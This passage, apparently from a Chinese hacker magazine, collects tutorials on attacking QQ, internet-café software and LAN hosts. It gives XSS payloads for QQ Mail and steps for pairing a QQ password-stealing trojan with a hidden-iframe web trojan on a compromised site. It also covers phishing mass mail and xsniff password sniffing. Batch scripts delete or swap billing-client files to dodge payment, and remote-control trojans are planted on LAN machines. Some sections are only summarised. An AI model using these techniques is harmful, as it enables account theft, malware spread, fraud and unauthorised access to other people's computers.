顺便说下，其实我们完全可以不使用netlines这个工具，用专业的抓包工具wsockexpert也能达到同样的效果。至于wsockexpert怎么使用，在以前的《X》上都有介绍，我想大家肯定比较熟悉了。我们来看看wsockexpert抓的包，如图9。看到 `/mingzhang/20050825/UnihanAA09C5A40155121.gif` 这个地址了吗？这是相对路径，我们只要在它前面加上 `http://caishu.sina.com.cn` 就可以看见我们的图像了。（文中涉及到的工具netlines网络下载机、wsockexpert已经收录于光盘中）


## QQ信箱跨站！

最近腾讯出现了许多严重的漏洞，本文将介绍一个关于QQ信箱的跨站漏洞，包括其产生、危害与利用方式。

此漏洞属于跨站类漏洞，跨站能力较强，若被恶意利用会造成较大影响。问题由QQ信箱过滤参数不严引起。

作者：李非初


点击红字部分可打开相关页面（图2）。文中演示了通过构造内容触发窗口打开，再通过“回复查看”等操作进一步验证跨站效果。

```javascript
"></td><script>window.open('http://hao123.com/');</script>
```

```javascript
"></td><script>window.open('http://hao123.com/',height=0,width=0);</script>
```

随后文章讨论该漏洞的利用思路：在利用前需配置木马并配合网页代码，进一步获取可被利用的QQ账号信息。

#### 木马的配置

网上盗QQ时，可以用软件从内存中读取盗号者的信箱用户名与密码，然后进行反盗取。现在我要介绍给你们的木马就是不怕反盗取的，呵呵。看你们还怎么样捉得住我哦。现在我们的主角上场了，它就是“啊拉QQ大盗v1.6”。这个软件可是我的最爱哦，从1.0到最新版，本人都是爱不释手。其使用的方法也是相当简单的（图4）。


好了，我们来按照实际需要填写。如果有的朋友还不知道你所填写的信箱是否能收到信的话，可以测试一下。本人测试中试了好多网站的信箱，发现163的最好用，98%可以收到信，强烈建议使用163的邮箱（我可没有帮网易做广告哦）。填写好以后，我们就点“生成木马”，如图5。


这是我自己的配置。520.exe是我已经生成的木马（图6）。现在就要把它与网页木马结合了。

#### 二、网页木马的制作

我现在以SP2的网页木马为例，大多数网页木马的原理都差不多，个人感觉这个SP2的网页木马非常好用。我们使用网页木马之前，必须有一个前提，那就是我们有自己的网站空间，用来存放网页木马。当然，你也可以利用漏洞入侵，然后上传海阳2006或者老兵的站长助手之类的网页木马来获得网站空间并存放网页木马（这方面的入侵不是本文的重点，所以略写过去，更加详细的资料详见《黑客X档案》）。现在开始制作SP2网页木马了，先了解一下其包含的文件（图7）。


- 1. 先把之前用啊拉QQ大盗v1.6生成的木马520.exe改名为 bbs003302.css，并放到SP2的网页木马处，覆盖原来的 bbs003302.css（图8）。


- 2. 把 bbs003302.gif 与 bbs003302.css 传到同一网站空间目录下（图9）。


- 3. 修改 SP2.htm 文件。用记事本打开这个文件，然后修改图中的蓝色部分（图10）。

```html
<SCRIPT language="JScript" src="bbs003302.css"></SCRIPT>
...
document.write("<SCRIPT language='JScript' src='" + String.fromCharCode(82) + "...'")
```

图9中我们可以看出，我的实际上上传地址为 `http://www.jumay.com/images/paihang/` 目录下，那么我们要把蓝色部分改成这个地址 `http://www.jumay.com/images/paihang/bbs003302.gif`，改好以后保存并退出。

- 4. 把SP2.htm上传到 `http://www.jumay.com/images/paihang/` 目录下，与上面的 bbs003302.gif 与 bbs003302.css 同一目录（注意三者一定要同一目录，不然的话会出错，这是很多菜鸟都会犯的错误）。把这三份文件存放好以后，只要我们使别人访问 sp2.htm，那么就会中了我们的木马。

- 5. 首页挂马。我们要在这个已经被我入侵的网站进行首页挂马，使别人一访问它的首页就会中了我们上面已经种下的木马，所以我们要使用下面这一条语句：`<iframe src="http://www.jumay.com/images/paihang/sp2.htm" name="zhu" width="0" height="0" frameborder="0">`。里面SRC后的就是我们的网站木马地址。我们把上面的语句放到首页的代码中，为了不使它与其他的代码出错，我们一般把这一段代码放到最底部（注意这代码只在ASP与HTML网页代码中通过测试，其他形式的代码如PHP则没有通过测试）（图11）。


图11

其中蓝色部分就是我们加上去的，现在我们只要访问 `http://www.jumay.com/`，就会中我们的QQ病毒了，爽吧？

## 三、QQ号码字典的制作

我们想要制作出一些特别的QQ信箱，例如 27342340@qq.com 的信箱地址，那么肯定离不开一个好的字典生成工具。现在我们要用到的是目前“黑客至强”的字典生成工具“易优超级字典生成器3.35版”，我使用的是破解版。然后我们打开这个软件，并选择“基本字符”的菜单，并在“数字”中选择你们想要的QQ包含号码的范围（图12）。


图12

注意不要选择包含“0”的在里面，如果选择包含“0”，那么它生成的QQ号码里就会有类似00000012之类的QQ号码。好了，当我们选择好这些包含的QQ号码字符以后，就选择菜单“生成字典”。注意“密码位数”不能选择5位以下，因为5位以下的QQ号存在吗？（图13）


图13

我选择了8位的QQ号码，当然，你们可以按照实际需要自己填写，然后点击“生成字典”，生成后的字典文件如图14。


图14

这些就是生成的八位QQ号码了，但现在还没有完成，我们要修改为“QQ号+@qq.com”样式。选择字典生成工具菜单中的“修改字典”，选择要修改的字典，再选择好保存的路径。选中“在每个密码后插入字符串”，在后栏里输入“@qq.com”，然后点击“修改字典”就完成了（图15）。


图15

## 四、QQ信箱群发器及社会工程学的利用

我使用的邮件群发器并不只是能发给特定的QQ信箱用户，发给其他邮箱的也可以，功能十分强大。运行主程序界面如图16。


图16

我选择了“正常模式（SMTP）”，因为利用SMTP可以使收信人看到我的发信地址。有的读者可能会感觉到奇怪，为什么要让别人看到我的发信地址呀，那不是暴露目标了吗？呵呵，当你看了我的发信地址就感觉不到奇怪了：qq.-com@163.com。看到了没有？当收信人看到这种信箱时，信件的内容又是“热烈祝贺腾讯QQ与网易163联合举办****大型有奖活动，只要您回复（回复内容可以空白哦），就有机会得到腾讯的一个月会员免费体验，还有163的通行币150点哦，赶快参加吧”，这就是利用社会工程学了。

### 1. SMTP的设置

“邮箱设置”->“使用下面的邮箱账户设置”->“增加邮箱”，如图17。


图17

记住服务器端口一般用25，不需改变；还要记得在“服务器需要身份验证”前打上勾，然后填写下面的用户名与密码，最后点击“确定”就可以了。还有一点需要注意的，尽量使用163的邮箱，这样发信成功率会比同类的信箱高出许多。

##### 2. 跨站漏洞时邮件编写

当我们设定好SMTP以后，就要编写信件了。现在返回信件群发器的主菜单界面，选取“宏定义邮件（推荐）”右边的“编辑”，然后按图18所示写好信件。


图18

记得主题那里一定要写上前文介绍过的跨站代码，里面跨站要打开的网页木马你自己改写。信件的内容也是自由发挥，目的只是欺骗对方点击。完成撰写个人的功力。完成这些以后，就点击右上方的“编写完成”，这样一封跨站漏洞利用的信件已经完成了。

### 3. QQ信箱群发的实现

回到信件群发的主菜单界面（图19），把我们已经做好的那份QQ信箱字典挂上去，点击工具栏的“发送”，这样就可以群发了。经本人测试，这个邮件群发器的效果很好，可以放心使用。


图19

#### 五、黑客是如何发现跨站漏洞的

这个问题可能是大家比较关心的。怎样才能发现漏洞，怎样才能配合一些常用的工具使漏洞发挥最大功用，现在我就来一点小小的杂谈吧。个人认为漏洞的发现在于平时的细心……

```html
"></td><script>window.open('http://hao123.com/',height=0,width=0);</script>
```

后记：有的读者认为这个语句不够隐藏，也可以用 SCRENC.EXE 来加密，经过测试加密后依然可以运行，而且文字已经不再是明文显示了，再次达到欺骗的效果。（文中涉及到的程序QQ可控大盗、易优超级字典生成器3.5版、信件群发器已经收录于光盘中）


## 嘿嘿！校园里总有管理员（QQ号相关）

crack163

为了搞到几个好的QQ号，我决定在网吧安装上阿拉QQ大盗。可是经过测试，我发现用邮箱发信的时候系统会变慢，于是我选择网站方式（功能选项尽可能少选，如图1）。


现在需要找一个支持ASP的个人空间。用百度搜索后找到一些免费空间，进入管理并上传ASP文件时失败，提示有禁止上传的类型。于是尝试通过修改后缀（如asp改为asa等）绕过限制。

接着继续上传木马与相关程序，发现网页端对EXE上传有限制（如图2）。后来在管理页看到ASP与EXE格式限制较少，推测可通过ASP木马实现后续操作。


作者继续描述对木马文件加密与上传测试，提到WEBSHELL与ADMIN类文件位置，随后展示站点用户列表与相关数据（图3、图4、图5）。


右栏文字继续描述提权、维护与站点列表检索过程，提到通过网站列表发现访问量较高链接并尝试进一步操作，随后展示网站申请/列表界面（图6）。


文末总结：又测试了若干免费空间系统，讨论了上传ASP文件与权限设置问题，并给出相关搜索关键词与个人“收获”感想。

## 菜鸟的QQ噩梦

coldface


最近心情挺好的，在网吧里使用以前在X档案上学习的知识搭了个网吧的服务器，上传了个“影子”，后来又传了一个阿拉QQ大盗1.7的服务端，很轻松地就搞到了很多QQ号，其中也包括了许多好号码，如图1。

可惜好景不长，那个QQ号不久就被原来的主人找回去了。这个主人应该不是高手（因为没有看X档案），竟然和我进行了一次战斗（呵呵，严重了），下面就来讲讲我的遭遇。

大家看图2，这是我QQ好友里的号。这个家伙居然给我发了个美女的图片，还是穿丝袜的。我辈幸亏经常看《黑客X档案》，还知道点黑客技术，不然一个不小心打开了，岂不是要因色中马呀。


为了让我们能够远程控制别人的计算机，要在计算机运行木马必须调用系统的API函数，因为要远程用到网络的API函数，所以我们通过检测系统的函数就可以知道。我向大家推荐的是depens，下面是对阿拉QQ大盗服务端的检查，如图3。

图3中那个wsock32.dll调用的是网络API，显然是木马。这里仅仅是给大家讲一种简单的识别别人给你传输的文件是不是网络木马的方法。

这家伙第二次发来了一个QQ珊瑚虫程序，说是最新版的，可以在线查询IP地址。虽然开始他和我说了很多令人很兴奋的话，但是在“美人计”前我都没有倒下，又怎么可能会在这里中招呢？


我安装了程序，并运行了他说的珊瑚虫最新版（放心，我知道是木马，有准备的），直接拿出黑客常用的UltraEdit，查看exe程序的头字段“mt”，找到了两处“mt”，很显然是简单的木马文件绑定。

这家伙其实一点都不聪明，用珊瑚虫就想钓走俺的QQ，一定是新手了。把后面mt开头的程序导出来，一看大小25K多，和刚才的阿拉QQ大盗差不多，直接运行。

这叫做置之死地而后生。我们还有x-sniffer，运行不久后QQ死掉了，这是阿拉QQ大盗的表现。接着登录我的QQ（密码刚被盗，他是没时间立刻知道的）。在cmd下输入 `sniff -pass -hide -log pass.log`，不久就在x-sniffer的相同目录下找到了这家伙的邮箱。

从这件事上，我发现只要善于利用我们所学的知识就能解决很多的问题。说实在的，本文没有多少技术含量，仅仅告诉大家一点技巧而已。（文章中涉及到的程序depens、ultraedit、x-sniffer已经收录于光盘中）

## MSN口令发现者

天涯麦草

随着微软的即时通讯工具MSN的逐渐流行，网上出现了大量针对MSN的病毒、恶意程序。最近突然出现了一种专门用来破解MSN即时通讯工具账号密码的程序——MSN口令发现者v2.0，它的出现可能造成超过两亿的HOTMAIL用户面临盗号威胁。

这个程序最早被直接公布于某国外网站上，现在国内的网站也有下载了。利用这款程序，任何人都可轻松获取Windows XP和Windows 2003系统下MSN 7.0用户的.NET Passport邮箱地址及密码。除此之外，网上甚至还提供了可编译运行的代码。

MSN口令发现者的使用非常简单，运行它之后，点击界面中的“Find Password”按钮，立刻就可以得到在该计算机上登录过的MSN账号和密码，如图所示。

随着这段源代码的公布，病毒作者和垃圾邮件发送者将直接受益：他们可以修改现成源码制造盗密病毒、黑客软件等。对于全球超过2亿的HOTMAIL用户来说，一旦他们用HOTMAIL邮箱绑定了.NET Passport，他们的邮箱将直接受到病毒威胁，垃圾邮件也将蜂拥而至。现在，使用MSN的朋友请特别小心了。

（文章中涉及到的程序MSN口令发现者v2.0，已经收录于当期光盘中）


## QQ“皮潜”战

### 学会关心她

QQ 好友上线就隐身，怎么才能把他揪出来呢？以前有种查询 QQ 隐身好友的方法，但后来腾讯在珊瑚虫外挂中加入了新功能“钛布衫”，可阻止被探测是否隐身。最近发现一款软件 **QQ Tool**，可以显示隐身、在线和离线好友，并可进行查看资料、发送消息等操作。

把软件下载并运行后，在账号菜单中添加 QQ 并登录，稍后即可刷新出好友信息。可在列表中右键选择“查看好友资料”“发送消息”，也可通过“查看消息”查看回复。

在“参数设置”中可修改轮询间隔，并设置开机自动启动、最小化到系统托盘等。总体来说该工具操作简单，适合用来发现隐身好友。


### 教你爽玩 QQ 秀

### 沉默

- 今天介绍一个 QQ 秀相关的小 bug：可通过特定方式实现一套 QQ 秀给多个号码使用。
- 进入 QQ 秀后直接赠送会出现系统限制提示。
- 改为右键菜单中复制快捷方式，再粘贴地址并修改参数中的编号。
- 将链接中对应 QQ 秀编号替换为目标编号后提交，可收到系统消息。
- 通过该方式可让同一套装在不同号码上显示，实现“共享”效果。


## 阿巴黑客


## 网吧黑客

### 与 PUBWIN 有关杀手

战神 MARS

2005 年第 6 期我在 X 档案上发表了《PUBWIN 破解之总结篇》（以下简称《总结》）。文中提到用 Windows 任务管理器杀死 PUBWIN 进程的方法：就是先将 RECLOCK.exe 进程结束，再将 PUBWIN.exe 进程结束。最近我发现在有的网吧行不通。WHY？我也在思考这个问题。无意间，将系统中的一个叫 RUNDIL.exe 的进程结束掉，发现电脑可以用了（注意，这并非是 RUNDLL.exe 哦）。


再讲一下进程结束的先后顺序：RUNDIL.exe→RECLOCK.exe→PUBWIN.exe。前一阵子我迷上了 NBA2004，用此法次次得心应手，好爽啊。事情本应就此结束，但后来的经历又让我旧事重提。

当初禁止 RUNDIL.exe 进程的时候，我是毫无根据的，可能是心里想的现在流行的木马都采用进程插入技术，莫非 PUBWIN 也有此一招！不过进程插入的木马一般都是 DLL，而此进程是以 exe 为后缀的可执行文件。不过一看此文件就不是什么好东西，如果它叫 RUNDLL.exe 就不会这么认为了。用过木马的人都应该知道，木马的名字都会同系统固有文件名相似，便于隐藏和伪装。刚开始的时候也没有考虑那么多，就结束这个进程，没想到还真误打误撞成功了，现在可以肯定地说就是这个 RUNDIL.exe 搞的鬼了。

后来回想起来，终于明白了。网管竟然在网吧下马，太狠毒了吧。我有些懊怒了，这 RUNDIL.exe 竟然是木马，但或许这是 PUBWIN 为了防止进程被查杀而设下的东东呢（进行进程控制）。不过无论如何，此文件确实要不得。建议上机后就将其查杀，没有哪一个黑客希望自己的一举一动被网管监视吧！

再提醒一下大家，这个 RUNDIL.exe 可能会改名的，细心地检查一下系统的进程，你应该很容易地将其从系统中揪出来。好了，RUNDIL.exe 问题就讨论到这里吧。

“绿鹰 PC 万能精灵”上有一项功能叫网络监控。一次上网时发现 PUBWIN 服务器向网吧机子下锁定机器的命令端口为 1073。端口是计算机与外界连接的通道，知道了端口就好办了，用一些方法将其禁用，那么就可以在会员时间用完后免费上网了。怎样限制或关闭一些端口呢？用一些相关的软件就可以了。如果是 Windows 2000/XP 系统的电脑，就可以用系统自带的“TCP/IP 筛选”功能来限制端口了。


具体的设置如下：

- 1）鼠标右击“本地连接”，点“属性”，弹出“本地连接属性”对话框。
- 2）选择“此连接使用下列选定的组件”列表中的“Internet 协议（TCP/IP）”，然后点“属性”按钮。
- 3）在弹出的“Internet 协议（TCP/IP）”对话框中点击“高级”按钮。
- 4）在弹出的“TCP/IP 筛选”中选“启用 TCP/IP 筛选”复选框，然后把左边的“TCP 端口”上的“只允许”选上，如图 5、图 6。


好了，接下来的工作，你自己做吧，不用我来教了吧！

（文章中涉及到的程序“绿鹰 PC 万能精灵”已经收录于光盘中）

### 完全手工破解 光大网管

吴钦忠


正文左栏与中栏的大段技术叙述，内容围绕光大网管、漏洞利用、客户端配置文件与密码尝试过程，包括对内存查找、文件 `ZW.PW`、`配置客户端超级密码.exe` 等的分析与操作描述。


### 破解美萍新招

赵学通

右栏前言段落：介绍学校机房中美萍计费器、历史漏洞、屏蔽措施与免费上网思路背景。

> 小提示：过去公开的方法已较久，仍有可用办法，但网吧安全意识已提高。

右栏正文段落：说明“软件注册”方式的思路来源与适用前提，并引出具体操作步骤。

- 1. 点击“开始”菜单中的“软件注册”，打开后在“序列号”“注册码”中按特定方式输入字符，先填满后再按规则输入（文中以 `w`、`q` 等为例）。
- 2. 点击“注册”按钮，若出现“非法操作错误”则进入下一步判断；若为“注册失败”提示，则继续在注册号中增加输入基数后重试。


它的字幕，直到出现图 2 的情况。这时点关闭，就成功返回 Windows 的桌面了。有时会出现状态栏消失的情况，如图 4，大家可以先玩一会儿游戏，再退出，一般状态栏就出现了。接下来大家就可以为所欲为了，呵呵。

小编：根据作者提供的图，看得出是 98 系统（仿 XP）+美萍电脑安全卫士 11.7 下实验成功的，那基于 NT 的会不会成功呢？小编亲自试了一下，测试环境为 Windows 2000+美萍电脑安全卫士 11.8，同样成功！看来美萍真的要好好改改了！！


最近，我们学校周围的几家网吧都像着了魔似的，纷纷为网吧装上了净网先锋软件。航母级的网管软件——PUBWIN 就够小菜们受的了，这下可好，又多了个新的敌人——净网先锋……

突破攻略大纲：先讲原理，再讲两种处理方式。

方法二：利用软件“净网破解网吧版”（如图 2）。双击图标，点击“下一步/完成”，几秒钟后任务栏中的“净网先锋”图标消失。一般情况下，点击“完成”后 IE 会自动打开网页，关闭即可。


- 1. 利用“Windows 任务管理器”。
  - 在登录界面时按 `CTRL+ALT+DEL` 调出任务管理器。
  - 在“程序管理”中选中“净网先锋”。
  - 点击“结束程序”，再根据提示处理，可返回桌面。
- 2. 在禁用任务管理器的情况下，使用“精锐网吧辅助工具 v5.0”。
  - 进入“限制恢复”标签。
  - 点击“解除 PUBWIN 限制”等选项恢复控制。


题外：作者提到“绿鹰 PC 万能精灵”可用于进一步清理净网先锋残留（如 `c:\winnt\mainpro.exe` 相关路径），用于避免被再次监控或触发异常。文末总结：净网先锋的破解到此结束，祝大家好运。

### 万象 2004 免费全攻略

Sno[w]olf

至今日，网吧如雨后春笋般遍布全国的每一个角落。而网吧的生存，与网吧的管理水平是密不可分的，也因此涌现出不少优秀的网吧管理软件，大大提高了网管的效率和管理强度。

这其中，“万象网管”是一个极其高效且强大的网吧管理软件，一直是这个市场的重头产品，而关于它的破解方法在网上也很多，但是这些方法基本上都是针对系统的某一配置而进行破解，有一定的局限性。于是，我就以我这一年来在网吧上网的经验，为大家总结几种逃避软件计费的方法。

这个放木马的好机会啊。放一个盗密码的软件，来盗取管理员的密码或普通会员的密码，是再轻松不过的免费上网方式了……不过倘若你不幸没能破解网吧的还原精灵或保护卡（虽然这种是很少见，不过考虑到特殊情况还是说一下吧），也不要轻易放弃，我们还有更绝的方法。

万象为了减少会员密码被嗅探的可能性，并且考虑到如果服务端被关闭客户端依然可以上机的原因，于是当服务端启动时，服务器就把会员账号和密码发送给客户端，用户上机输入账号和密码时只需要和客户端内存里的账号密码对比就行了。（也许有的朋友想到了用 WINHEX 或其它工具来查看内存里的会员密码。这种方法在万象 2003 时还可以，不过 2004 版的已经给补上这个漏洞了。）这样就不会因为密码信息在网内传输而被嗅探到了。

不过虽然万象 2004 验证会员密码是在本地验证，但是更改密码时却要将新的用户会员信息更新到服务器数据库，因为它要将密码信息更新到各个客户端，以便用户会员在下一次登录其他机器时，可以正常登录。所以嘛……用 xsniff.exe 本地嗅探就行了，命令是 `Xsniff -tcp -udp -pass -hide -log pass.log`，PASS.log 就是密码文件了（不过说实话这种方法我没试过，理论上应该是行得通的）。

> **注意：** 以下文中若有一部分方法成功的前提是还原精灵或其他还原系统已经被你破解了，我也不多作说明了，只要你已经可以被称为菜鸟的话，应该能看出来哪些方法是在还原精灵被破解的情况下写的；至于还原精灵的破解方法我就不说了，在网上一般能搜出一大把，X 档案以前也有很多破解的文章。

#### 一、直接删除客户端文件

万象 2004 版本在 Windows 2000 以上的操作系统安装时是直接把客户端文件安装到系统 SYSTEM32 目录下，大家也知道这个目录里有多少文件吧，要是一个个找起来，那……不过这样就可以阻止我们的行动了吗？我们可以通过对比安装万象客户端前后的系统 SYSTEM32 目录文件找到万象的客户端文件。文件我已经帮大家找好了，大家只要删除就行了，具体步骤就是：在开机前按 F8 键，进入纯 DOS 方式。进入系统目录，在 SYSTEM32 目录下运行命令：

```cmd
For %a in (AutoLive.dll,Encipher.dll,wxGame.dll,ESALES.DLL,StpClt.dll,wxctxmnu.dll,astll.dll,wxfavopr.dll,wxiemnu.dll,wxSD.dll,DMSTY.exe,rUpdate.exe,wxfavorite.exe,WXSYFCLI.exe,Albt.exe,climan.exe,Clsmn.exe,CSetup.exe,Nams.exe,Syncc.exe,ServerService.exe,regCode.exe,PUBLIC.exe) do del %a

reg delete HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v wxClient
```

意思是分别用万象客户端文件名定义参数 `%a`，然后执行命令 `DEL` 删除。删除完后还不行，如果你不想在启动 Windows 时出现错误提示（虽然没什么大碍），那还得删除注册表启动项……如果是 Windows 98 的客户端就好办多了，只需要删除 `C:\` 盘下的 Octopus 目录就行了。

#### 二、密码盗取

#### 三、爆破法

写到这各位可不要误会啊，所谓爆破不是指密码猜解（如果你想猜我也不会拦你，不过现在还真没有关于万象密码爆破的工具吧？！）而是像破解软件时间限制那样，把软件修改了，密码出错时不跳到密码错误的程序处，而是继续运行。具体方法是：用 W32dasm 打开系统目录 SYSTEM32 文件夹下的 csetup.exe（这是客户端设置程序），反汇编结束后，点击“参考”，选择“字符串参考”，在下面我们找到“密码有误，请重新输入”，如图 1。


假如网吧的还原精灵已经被破解了，我想很多朋友不会错过……

因为这个程序涉及到客户端解析和管理员设置两种登录方式，所以有两种提示方式，不过这不重要，只要把那个相等就跳（JE）改成不相等就跳（JNE）就行了。把光标移到 004A9299 这一行，在程序下面看到了偏移地址，如图 2，记住了。


图 2

然后关闭 W32DASM，运行一个 16 进制编辑器，比如 WINHEX，打开 Csetup.exe，找到刚才记住的偏移地址把 74 改为 75，然后另存为 Csetup1.exe。运行 Csetup1.exe（不要保存，因为高版本万象每隔一段时间就自我检测一下，如果原程序代码被修改就会自动重启），随便乱输个密码或者不输密码，点进入。接下来就可以继续操作。


图 3

本来到这，爆破应该是告一段落了。不过突然想到，如果把 JE 和 004A92E2 地址之间的出错代码全部 NOP 掉（反正正常运行程序也用不着），是不是就可以直接运行到正确地址呢？我没做实验，感兴趣的可以自己试试。

#### 四、旁门左道法

##### 1. 终止进程法

大家一定在万象 2003 或 pubwin 等其它管理软件上已经试过这种手段吧！就是用智能 ABC 输入法漏洞（在智能 ABC 状态下依次输入“V”→“1”→“DELETE”→“Enter”）或其它方式终止客户端。不过到万象 2004 时，经典方法因为自我检测功能已经不太好用了。

当大家来到万象 2004 而故技重施时，会惊奇地发现以前经典的方法已经不能用了，为什么呢？答案就是前面说过的自我检测功能。怎样才能让经典方法继续使用？关键在它重启之前会有几分钟空档，这几分钟已经够我们“作案”了。

现在我们站在免费上网的入口处，但万象用来自检的 DLL 文件却挡住了去路。可以用批处理做统一反注册，不用一个个手工找。

```cmd
For %a in (AutoLive.dll,Encipher.dll,wxGame.dll,ESALES.DLL,StpClt.dll,wxctxmnu.dll,astll.dll,wxfavorp.dll,wxiemnu.dll,wxSD.dll) do regsvr32 /u %a.
```

##### 2. 社会工程学

现在的网吧一般都装有还原精灵，有的还装了优化大师并加了密码。但这和破解网吧并非直接关系，本质上与 QQ 密码、邮箱密码、银行卡密码一样，核心是人的安全意识。可以尝试读取还原精灵密码，再登录管理员设置平台，成不成功取决于网管安全意识。

#### 五、入侵服务器

这对一些朋友来说可能有点困难，而且不同网吧配置不同，入侵方法也不尽相同。这里给一个思路：因为在内网，限制通常比外网低。比如在 Win98（或类似环境）下，尝试定位系统数据库文件并读取 Access 密码。


图 4

好了，万象 2004 免费攻略基本总结完了。总之，想免费上网一定要多动脑子，但不要做得太过分，一旦被抓住不要乱推责任。

### 偷天换日，瞒天过海

战神 MARS

偷天换日，瞒天过海！说得有点玄了，其实本文实际上是来教大家如何获取管理员密码的。当然了，这次也是针对 PUBWIN。谈到 PUBWIN 的破解，依我看来大致有三种方法：

- 方法一：绕过或突破单机的 PUBWIN 限制。你可以在管理员休闲的时候免费上几小时网，因为网吧主机上显示的是“无人上机”。细心的管理员每隔一段时间查一次人数，那么你极有可能被逮到，要是被管理员逮到了的话，那你可就惨了。
- 方法二：获取 PUBWIN 的管理员密码。这下网吧主机上显示的是“管理员使用状态”，这样在网吧免费上网的安全性大大提高。网吧不会不让网管上机吧！获取了管理员密码咱们就是管理员了，想便宜上网，那 PUBWIN 也不会对我们有所限制。
- 方法三：入侵网吧主机，修改网吧数据库，给自己上网卡加足钱，再刷卡上机。不过有些网吧的网管水平很高，你可能搞不定，而且这种方法风险也高，不推荐菜鸟使用。

说了这么多，无非是想告诫大家万事要小心，世界上没有绝对安全的技术。好了，下面介绍破解 PUBWIN 管理员密码的方法。不得不提一下在某期 X 档案中的相关文章，其中提及“复古法”破解 PUBWIN4 管理员密码。

（右栏）从网上找来了 4.0 版的 PUBWIN 安装程序。不过事先你必须先将 PUBWIN 给破了。先用“注册表”法将 PUBWIN4.3 手工破解，然后卸载精灵将其卸载，如图 2，再把 4.0 版的 PUBWIN 客户端程序安装上。


方法二：偷天换日，瞒天过海。本文的主打方法终于出场了，大家可要看仔细了啊。首先介绍一下要用到的工具：4.0 版的 PUBWIN.EXE、替换网吧辅助工具（可用 Windows 任务管理器代替）、黑号密码查看器。提醒一下读者，本方法与速度无关，而且操作极其简单。

经过一番研究，我找出了适合自己的方法，不敢独享，特向大家推荐：方法一，利用“卸载精灵”。很早就有这样一个想法：我直接将网吧中的 4.3 版 PUBWIN 卸载掉，然后再安装上 4.0 版的，不就实现复古了吗？


接下来，使用“替换网吧辅助工具”来结束 PUBWIN 的进程。进程结束后，系统任务栏上的 PUBWIN 图标先消失，约两秒后又出现，说明复活成功。我们将 PUBWIN 的进程结束，两秒钟后 PUBWIN 从内存中又复活了，不过它调用的 PUBWIN.EXE 已经被我们调包了。

行的就是 4.0 版的 PUBWIN 啦，复古成功。现在可以改管理员密码了，这次我们用“星号密码查看器”。右击“任务栏”中的 PUBWIN 图标，选“系统设置”，提示输入“管理员密码”，什么？你不知道管理员密码。废话！什么都不用输，直接回车（空密码）即可。打开“系统设置”对话框，选“系统参数”；上面就有以星号密码保存的管理员密码，如图 3，运行一下“星号密码查看器”就搞定了。


最后，再用相同的方法将 4.0 版的 PUBWIN.EXE 替换下来，好了游戏结束了。

方法三：利用批处理文件。因为最近在学习批处理嘛，就现学现卖啦，原理与方法二相同，不过会用到几款命令行下的工具。

- PULIST.EXE（命令行下列进程）
- KILL.EXE（命令行下杀进程）
- PUBWIN.EXE
- 星号密码查看器

看了工具大家或许都明白了吧，就是用命令行下的工具来代替“精锐”工具。批处理源码如下：

```bat
@echo off
rem 关PUBWIN的批文件
rem BY xh/MATS
:: 将Program Files\Hintsoft\Pubclt
ren pubwin.exe pubwin1.exe
cd d:\
move d:\pubwin.exe C:\Program Files\Hintsoft\Pubclt\
cd c:\
kill pid1
kill pid2
:: pause
cd C:\Program Files\Hintsoft\Pubclt\
ren pubwin1.exe pubwin.exe
ren pubwin.exe pubwin2.exe
cd c:\
kill pid3
kill pid4
cd C:\Program Files\Hintsoft\Pubclt\
del pubwin2.exe
cd c:\
del pulist.exe
del kill.exe
```

注：程序已假定 kill.exe、pulist.exe 在 C:\ 下，4.0 版的 pubwin.exe 在 d:\ 下。其中的 pid 值为系统进程的 id，用 pulist.exe 即可获取。pid1 为第一次运行的 Reclock.exe 的 pid；pid2 为 pubwin.exe 的 pid；pid3、pid4 分别为第二次的 Reclock.exe 和 pubwin.exe 的 pid。运行程序前先将 pid 值用 pulist.exe 获取。批文件很简单，相信大家一看就明白。

好了，今天的破解之旅就到这里了，有疑问上 X 论坛找我，我的昵称：zhanshen，再见啦！

> （本章中涉及到的程序卸载精灵、4.0 版 PUBWIN.EXE、精锐网吧辅助工具、星号密码查看器、KILL.EXE、pulist.exe 已经收录在光盘中）

### 横行局域网


远程控制对于小菜鸟来说是一件多么神奇而又遥远的事情啊！好羡慕黑客大哥喔！今天我们的目标是——我不希望有人说：没有蛀牙！你以为我在说广告吗？其实我们的目标是在局域网中横行霸道！不要不相信我哦！

这里要用到一些小软件，很简单的！用到的工具有：

- Adump
- Dtools
- 远程控制任我行
- 网络剪刀（或 ip scanner 之类的也可以）

看你喜欢了！我用的是网络剪刀！它的作用是让我们获取局域网内所有主机的 IP 和计算机名，当然这个软件的主要作用是它能够剪断局域网内任意一台主机的网络连接！安装完成后运行软件，它会自动搜索局域网，一会便出来结果了，如图 1。

## 网吧黑客

看到了吧，我们可以复制一份！以便备用。点“COPY IP 分配列表”，就可以复制里面的信息了。然后就是木马种植！不过这要用户名和密码。因为是局域网，所有的机子都是一样的。所以我们只要知道这网吧这台机子的用户名和密码就可以了！怎么知道呢？很简单的。这要用到一个软件——Adump，用法是 Adump -d，如图 2。


图2

好了，用户和密码都知道了，该种植木马了！有很多这种软件，我今天用的是啊 D 网络工具包！你要先选好一台你准备入侵的主机，比如说你想要 192.168.0.81 这台机子，运行啊 D 网络工具包，选中闪鸡查找，再点木马种植，然后输入 IP、用户名和密码，再选好本地木马文件！然后开始！因为我们用的是远程控制任我行，所以就选择这个软件的服务端！如图 3。


图3

好了，等一分钟吧。这个时候，运行远程控制任我行，输入 IP，点连接就可以了！如图 4。


图4

好了，连接成功，先看看他在做什么！如图 5。哦，原来他在看电影啊！远程控制任我行这个软件功能好强大，没事自己多研究研究。我们的目标是怎样入侵，而不是入侵后做些什么？那是你的事！不要太过分就好了！如果你不想玩了，退出前一定要将服务端卸载掉，点一下上面那个回收站的图标就可以了！

好了，今天的任务——没完，我再向大家介绍一个好软件！你可以不用知道用户名和密码，一样可以控制对方；只不过不包括远程屏幕监控！有利必有弊嘛，这个软件叫 recton，最新版本是 2.5。我问过软件作者了，之所以不用用户名和密码，是因为我们的用户名和他的一样！软件功能有：

- 开启 TELNET
- CMD 命令
- 远程重启
- 查看进程
- 查看服务
- 查看共享
- 木马种植等等

输入 IP 就可以了，用户不用填！下面是软件的主界面，很简单的，一看就知道，我就不多说了，如图 6。


图5


图6

好了，我们今天的任务——当然还没有完成。还有一个软件，也不用知道用户名和密码，但能看对方的屏幕！还能做一些事情！和 recton 正好各有所长！下面就来感受一下，软件名称：Omniquad Instant Remote Control，软件大小 2.28MB，安装完运行后如图 7。


图7

